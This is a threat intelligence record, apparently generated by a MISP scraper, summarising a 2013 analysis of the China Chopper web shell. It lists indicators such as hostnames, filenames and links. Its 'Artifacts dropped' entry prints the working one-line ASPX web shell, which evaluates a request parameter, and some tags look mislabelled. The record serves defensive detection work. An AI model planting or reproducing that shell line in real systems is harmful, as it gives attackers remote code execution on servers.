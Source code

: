 # Threat Report: 2013-08-07: Scraper: Breaking Down the China Chopper Web Shell - Part I


## Key Intelligence
* Date: 2013-08-07
* Threat Level: 2 (Medium)
* Tags: misp:tool="misp-scraper", osint:source-type="blog-post", misp:event-type="collection", misp-galaxy:financial-fraud="Malware", misp-galaxy:mitre-enterprise-attack-malware="China Chopper - S0020", misp-galaxy:sector="Other", misp-galaxy:target-information="China", misp-galaxy:ransomware="Explorer", misp-galaxy:mitre-attack-pattern="Web Shell - T1505.003", tlp:white

---

## Indicators of Compromise (IOCs)
### Artifacts dropped
* text: <%@ Page Language="Jscript"%><%eval(Request.Item["password"],"unsafe");%> — text-based payload ASPX

### External analysis
* link: https://www.mandiant.com/resources/blog/breaking-down-china-chopper-web-shell-part-i — Blog URL

### Network activity
* hostname: www.google.com.hk

### Other
* comment: Breaking Down the China Chopper Web Shell - Part I — Blog title

### Payload delivery
* link: http://informationonsecurity.blogspot.com/2012/11/china-chopper-webshell.html
* filename: 5001ef50c7e869253a7c152a638eab8a.exe
* hostname: www.maicaidao.com

## Objects
### file — File object describing a file with meta-information
* [Payload delivery] md5: <md5>
* [Payload delivery] filename: caidao.exe

### file — File object describing a file with meta-information
* [Payload delivery] md5: <md5>
* [Payload delivery] filename: Customize.aspx

### file — File object describing a file with meta-information
* [Payload delivery] md5: <md5>
* [Payload delivery] filename: Customize.cfm

### file — File object describing a file with meta-information
* [Payload delivery] md5: <md5>
* [Payload delivery] filename: Customize.jsp
